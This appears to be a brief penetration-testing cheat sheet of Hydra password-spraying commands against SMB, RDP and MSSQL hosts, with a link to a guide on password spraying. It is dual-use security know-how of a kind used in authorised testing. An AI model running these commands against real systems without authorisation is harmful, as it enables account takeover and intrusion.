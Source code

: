 # Hydra

## 01 - SMB

```
$ hydra -L users.lst -p "<password>" -M ip_targets.txt smb
```

## 02 - RDP

```
$ hydra -l Administrator -p "<password>" -M ip_targets.txt rdp

$ hydra -L users.lst -p "<password>" -M ip_targets.txt rdp
```

## 03 - MSSQL

```
$ hydra -l sa -p "<password>" -M ip_targets.lst mssql

$ hydra -L users.lst -p "<password>" -M ip_targets.lst mssql
```

---
## References

### Hacking Articles

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)